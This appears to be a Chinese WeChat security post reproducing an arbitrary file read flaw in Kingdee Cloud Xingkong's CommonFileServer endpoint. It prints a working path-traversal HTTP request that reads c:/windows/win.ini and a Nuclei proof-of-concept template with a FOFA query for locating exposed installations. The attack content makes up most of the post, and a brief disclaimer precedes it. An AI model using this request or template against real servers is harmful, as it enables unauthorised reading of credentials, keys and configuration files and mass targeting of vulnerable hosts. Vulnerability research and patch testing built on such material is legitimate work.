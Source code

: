 #  「漏洞复现」金蝶云星空 CommonFileServer 任意文件读取

rain  [ 知黑守白 ](javascript:void\(0\);)

**知黑守白** ![]()

微信号 gh_cfd31ff54692

功能介绍 黑白泾渭自分，弈棋尚能双活。知黑而守白，大道至简也！

____

___发表于_

收录于合集 #漏洞复现 20个

免责声明  

  

![]()

  

此内容仅供技术交流与学习，请勿用于未经授权的场景。请遵循相关法律与道德规范。任何因使用本文所述技术而引发的法律责任，与本文作者及发布平台无关。如有内容争议或侵权，请及时联系我们。谢谢！

![]()

![]()

漏洞概述  

![]()

      金蝶云星空V7.X、V8.X所有私有云和混合云版本存在一个通用漏洞，攻击者可利用此漏洞获取服务器上的任意文件，包括数据库凭据、API密钥、配置文件等，从而获取系统权限和敏感信息。

![]()

![]()

漏洞复现  

![]()

  *   *   *   *   *   *   * 

    
    
    GET /CommonFileServer/c:/windows/win.ini HTTP/1.1Host: accept: */*User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9  
    

![]()

  

![]()

NUCLEI POC  

![]()

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    id: jindie-K3-cloud-CommonFileServer-file-readinfo:  name: 金蝶云星空 CommonFileServer 任意文件读  author: rain  severity: critical  tags: Kingdee  metadata:     fofa-query: app="金蝶云星空-管理中心"http:  - raw:    - |        GET /CommonFileServer/c:/windows/win.ini HTTP/1.1        Host: mp.weixin.qq.com        Content-Type: application/x-www-form-urlencoded  
        matchers-condition: and    matchers:      - type: dsl        dsl:          - 'status_code == 200'          - 'contains(body, "[fonts]")'  
    

![]()

  

![]()

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

